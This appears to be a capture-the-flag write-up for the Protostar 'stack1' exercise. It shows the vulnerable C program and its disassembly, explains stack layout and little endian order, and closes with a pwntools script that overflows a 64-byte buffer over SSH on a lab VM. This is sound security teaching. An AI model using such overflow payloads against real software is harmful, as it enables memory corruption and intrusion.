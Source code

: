 # Stack1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

```

goal: Overwrite the content of the variable 'modified' with 0x61626364 


## static analysis: 

```asm 
0x08048464 <main+0>:	push   ebp
0x08048465 <main+1>:	mov    ebp,esp
0x08048467 <main+3>:	and    esp,0xfffffff0
0x0804846a <main+6>:	sub    esp,0x60
0x0804846d <main+9>:	cmp    DWORD PTR [ebp+0x8],0x1    
0x08048471 <main+13>:	jne    0x8048487 <main+35>
0x08048473 <main+15>:	mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:	mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:	call   0x8048388 <errx@plt>
0x08048487 <main+35>:	mov    DWORD PTR [esp+0x5c],0x0   
0x0804848f <main+43>:	mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:	add    eax,0x4
0x08048495 <main+49>:	mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:	mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:	lea    eax,[esp+0x1c]        <--- 4) eax point on [esp+0x1c]
0x0804849f <main+59>:	mov    DWORD PTR [esp],eax  <--- 3)  'buffer' address is store in eax         
0x080484a2 <main+62>:	call   0x8048368 <strcpy@plt>     
0x080484a7 <main+67>:	mov    eax,DWORD PTR [esp+0x5c]  <--- 2) eax points on [esp+0x5c]
0x080484ab <main+71>:	cmp    eax,0x61626364          <---- 1) comparing 'modified' with 0x61626364
0x080484b0 <main+76>:	jne    0x80484c0 <main+92>
0x080484b2 <main+78>:	mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:	call   0x8048398 <puts@plt>
0x080484be <main+90>:	jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:	mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:	mov    eax,0x80485f3
0x080484c9 <main+101>:	mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:	mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:	call   0x8048378 <printf@plt>
0x080484d5 <main+113>:	leave  
0x080484d6 <main+114>:	ret

```

The stack look like this : 

```
  |  |                     |
  |  |     modified        | 
  |  |                     | 
  |  |---------------------|esp+0x5c (esp+92)
  |  |                     |
  |  |       buffer        |   
  |  |                     |
  |  |---------------------|esp+0x1c  (esp+28)
  |  |      ...            |
  |  |---------------------| <-- esp 
  v
```

We can overwrite the content of 'modified' because we control 'buffer', we need to calculate how many bytes we should add in 
'buffer' to overwrite 'modified'.

```
0x5c - 0x1c = 64

```
So after overwriting 64 bytes we can control 'modified'.

# Little endian

Before writing the script let's understand how the little endian format works : 

Each byte has it own memory address  and in our case we want to overwrite 'modified' which is an integer.

An integer is 4 bytes in c so the stack will look like this:


```
  |  |                     |esp+0x5f 
  |  |     modified        |esp+0x5e  
  |  |                     |esp+0x5d 
  |  |                     |esp+0x5c  
  |  |---------------------|
  |  |      ...            |
  |  |---------------------| <-- esp 
  v

```

In the little endian format we start reading with the lowest address towards the highest.

ex: 


```
    |  0x61  | esp+0x3
    |  0x62  | esp+0x2 
    |  0x63  | esp+0x1
    |  0x64  | <---esp

    read value : 0x64

    |  0x61  | esp+0x2
    |  0x62  | esp+0x1 
    |  0x63  | <---esp

    read value : 0x6364

    |  0x61  | esp+0x1
    |  0x62  | <---esp 


   read value : 0x626364


    |  0x61  | <---esp

    read value : 0x61626364


```

So in little endian format the word stored at esp+0x1 is read :   0x61626364

Do you have notice something ? How the value 0x61626364 was push on the stack ? 

Like this  0x64636261   (in backwards)


Ok but how do we know that we are dealing with little endian or big endian.

The 'file' command will give you this information : 

![](file_cmd.png)


LSB :  Least Significant Byte


# Script time

```python

from pwn import * 

#  IP OF THE VM 192.168.160.128
# location of the binary /opt/protostar/bin/stack1


r = ssh(host='192.168.160.128', user='user', password='user')

payload = b'A'*64 + b'\x64\x63\x62\x61'

my_prog= r.run(['/opt/protostar/bin/stack1', payload])


print(my_prog.recvline())

```

Suspens ..

![](win_mess.png)

We made it ! 